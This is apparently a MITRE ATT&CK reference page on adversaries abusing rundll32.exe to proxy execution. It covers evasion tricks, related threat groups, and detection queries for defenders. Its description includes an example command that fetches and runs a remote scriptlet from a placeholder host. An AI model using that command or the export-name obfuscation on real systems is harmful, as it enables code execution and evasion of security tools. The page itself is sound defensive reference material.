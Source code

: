 # Rundll32 (T1218.011)

## Description
Adversaries may abuse rundll32.exe to proxy execution of malicious code. Using rundll32.exe, vice executing directly (i.e. Shared Modules (T1129)), may avoid triggering security tools that may not monitor execution of the rundll32.exe process because of allowlists or false positives from normal operations. Rundll32.exe is commonly associated with executing DLL payloads (ex: ```rundll32.exe {DLLname, DLLfunction}```).

Rundll32.exe can also be used to execute Control Panel (T1218.002) Item files (.cpl) through the undocumented shell32.dll functions ```Control_RunDLL``` and ```Control_RunDLLAsUser```. Double-clicking a .cpl file also causes rundll32.exe to execute. For example, ClickOnce (T1127.002) can be proxied through Rundll32.exe.

Rundll32 can also be used to execute scripts such as JavaScript. This can be done using a syntax similar to this: ```rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();GetObject("script:https[:]//www[.]example[.]com/malicious.sct")"```  This behavior has been seen used by malware such as Poweliks. 

Adversaries may also attempt to obscure malicious code from analysis by abusing the manner in which rundll32.exe loads DLL function names. As part of Windows compatibility support for various character sets, rundll32.exe will first check for wide/Unicode then ANSI character-supported functions before loading the specified function (e.g., given the command ```rundll32.exe ExampleDLL.dll, ExampleFunction```, rundll32.exe would first attempt to execute ```ExampleFunctionW```, or failing that ```ExampleFunctionA```, before loading ```ExampleFunction```). Adversaries may therefore obscure malicious code by creating multiple identical exported function names and appending ```W``` and/or ```A``` to harmless ones. DLL functions can also be exported and executed by an ordinal number (ex: ```rundll32.exe file.dll,#1```).

Additionally, adversaries may use Masquerading (T1036) techniques (such as changing DLL file names, file extensions, or function names) to further conceal execution of a malicious payload. 

## Parent Technique
- System Binary Proxy Execution (T1218)

## Tactics
- Defense Evasion (TA0005)

## Related Groups
- Gamaredon Group (G0047)
- FIN7 (G0046)
- APT19 (G0073)
- Kimsuky (G0094)
- Carbanak (G0008)
- APT3 (G0022)
- Magic Hound (G0059)
- TA551 (G0127)
- Blue Mockingbird (G0108)
- Wizard Spider (G0102)
- APT32 (G0050)
- Lazarus Group (G0032)
- TA505 (G0092)
- CopyKittens (G0052)
- APT41 (G0096)
- Sandworm Team (G0034)
- APT28 (G0007)
- HAFNIUM (G0125)
- APT38 (G0082)
- Daggerfly (G1034)
- RedCurl (G1039)
- LazyScripter (G0140)
- Aquatic Panda (G0143)
- MuddyWater (G0069)

## Mitigations
- Exploit Protection (M1050)

## Detection
Use process monitoring to monitor the execution and arguments of rundll32.exe. Compare recent invocations of rundll32.exe with prior history of known good arguments and loaded DLLs to determine anomalous and potentially adversarial activity.

Command arguments used with the rundll32.exe invocation may also be useful in determining the origin and purpose of the DLL being loaded. Analyzing DLL exports and comparing to runtime arguments may be useful in uncovering obfuscated function calls.

### Detailed Detection by Data Source/Component
#### Process: Process Creation (DS0009): 
Use process monitoring to monitor the execution and arguments of rundll32.exe. Compare recent invocations of rundll32.exe with prior history of known good arguments and loaded DLLs to determine anomalous and potentially adversarial activity. 

When monitoring for all instances of Rundll32 execution, as defined by the logic in the Detection Pseudocode, it is imperative to also investigate the full set of command-line parameters used. These parameters contain key information about the DLL payload, including the name, entry point, and optional arguments.

Note: Event IDs are for Sysmon (Event ID 10 - process create) and Windows Security Log (Event ID 4688 - a new process has been created). The Analytic looks for any instances of rundll32.exe but does no other filtering, which may result in false positives. Therefore, we recommend tuning any such analytics by including additional logic (e.g., testing the name of the user that created the process) that helps reduce false positives.

Analytic 1 - RunDLL32.exe Monitoring
 
``` (source="*WinEventLog:Microsoft-Windows-Sysmon/Operational" EventCode="1") OR (source="*WinEventLog:Security" EventCode="4688") Image= "rundll32.exe"```

#### Command: Command Execution (DS0017): 
Command arguments used with the rundll32.exe invocation may also be useful in determining the origin and purpose of the DLL being loaded. Typical command-line usage of rundll32.exe is ```"rundll32.exe DllFile,EntryPoint"``` where ```DllFile``` is the name of the DLL file being called and EntryPoint the name of the entry point in the DLL file. 

DLLs stored on SMB shares can similarly be called using the syntax of ```"rundll32.exe \\<ip_address>\DllFile,EntryPoint"``` where <ip_address> is the IPv4 address of the host of the SMB share. 

Rundll32 can also be used to execute arbitrary Javascript using the syntax ```"rundll32.exe javascript:<*code_block*>"```where <*code_block*> is a string defining the Javascript code to be executed.  



#### File: File Metadata (DS0022): 
Analyze contextual data about executed DLL files, which may include information such as name, the content (ex: signature, headers, or data/media), age, user/owner, permissions, etc.

#### Module: Module Load (DS0011): 
Analyzing DLL exports and comparing to runtime arguments may be useful in uncovering obfuscated function calls. Static Portable Executable (PE) analysis tools can be used to examine and dump the exports of a particular DLL. 

